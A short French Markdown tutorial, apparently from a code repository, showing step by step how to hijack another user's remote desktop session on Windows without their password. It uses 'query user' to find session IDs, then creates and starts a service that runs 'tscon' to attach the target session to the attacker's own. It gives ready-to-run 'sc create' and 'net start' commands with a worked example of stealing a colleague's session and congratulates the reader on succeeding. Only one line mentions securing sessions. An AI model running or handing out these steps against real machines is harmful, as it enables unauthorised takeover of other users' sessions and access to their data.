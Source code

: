 # Hijack session pc distant avec la faille tscon

# tscon
Cette commande est utilisée pour se connecter sur une autre session d'un PC distant (serveur par ex.).
Elle nécessite le nom de destination et l'ID de session pour s'exécuter.

# query user
Cette commande permet d'afficher la liste et informations de session de tous les utilisateurs s'ayant déjà connecté au serveur distant.
Utile ici pour récupérer le nom de destination et l'ID de session à hijacker.

# service
Cette commande permet de voler (hijacker) la session de n'importe quelle cible, sans mot de passe (password bypassing) :
*<process_name> est le nom du service à créer (nom bidon, aucune importance, faudra juste arrêter le service avec le meme nom ensuite)
<user 2_ID> est l'**ID** (numéro d'identification) de la **session-cible**, celle à hijacker
<session_name> est le nom de **votre** session*
```
sc create <process_name> binpath= "cmd.exe /k tscon <user 2_ID> /dest:<session_name>"
```

# Exemple
commande query user à lancer dans un terminal (cmd, powershell...) :
![query user](Documentation/En vrac/res/Hijack session pc distant annexe.png)

Exécuter ensuite la commande du paragraphe "service" ainsi que celle pour démarrer le service, exemple ici :
*Nous sommes dans cet exemple Titi, et souhaitons voler la session de Toto
*<process_name> = hijack (nom du service - le nom n'a pas d'importance)
<user 2_ID> = 8 (ID de la session-cible)
<session_name> = rdp-tcp#1 (nom de notre session actuelle)*
```
sc create hijack binpath= "cmd.exe /k tscon 8 /dest:rdp-tcp#1"
net start hijack
```
**Félicitations, vous venez d'Hijacker une session distante via une faille de tscon exécuté par service sans mot de passe.**
Comprenez alors l'importance de sécuriser, logger les sessions utilisateurs.
**N'oubliez pas de stopper le service une fois avoir fini avec la commande *net stop <process_name>*** :
```
net stop hijack
```

